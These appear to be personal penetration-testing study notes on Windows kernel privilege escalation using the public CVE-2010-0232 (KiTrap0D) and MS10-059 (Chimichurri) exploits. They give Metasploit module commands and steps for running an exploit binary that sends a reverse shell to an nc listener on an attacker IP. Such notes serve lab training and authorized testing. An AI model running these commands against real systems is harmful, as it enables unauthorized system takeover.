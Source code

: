 -- -
Exploits run against the kernel.
[[Dark Arts/Privesc/Windows/Enumeration/Kernel Level Exploits|Enum]]
#### CVE-2010-0232
#cve-2010-0232 [Disclosure](https://seclists.org/fulldisclosure/2010/Jan/341)
Affects older versions of Windows:
- Windows 2000
- Windows XP
- Windows Server 2003
- Windows Vista
- Windows Server 2008
- Windows 7
```bash
# from meterpreter shell
bg # or background or ctrl+z
use exploit/windows/local/ms10_015_kitrap0d
set session <session id> 
set lhost tun0 # or attack ip
set lport 5555 # irrelevant what you set to
run
```
#### MS10-059 - Chimichurri
#ms10-059 #chimichurri
[[Dark Arts/Privesc/Windows/Enumeration/Kernel Level Exploits|Enum]]
[Exploit Executable](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS10-059)
Get executable in above link or from a google search and [[Dark Arts/File Transfer/Windows|File Transfer]] it over to the target. 
**Attack Box**
```bash
# setup listener
nc -nvlp <port number> 
```
**Target**
```powershell
# in this example, I saved the exploit binary as "ms.exe", name can be whatever you name it. 
ms.exe <attack ip> <attack port> 
ms.exe 10.10.10.14 7777

# should produce a shell on you listener.
```
#### Resources
- [Repo of Exploits](https://github.com/SecWiki/windows-kernel-exploits)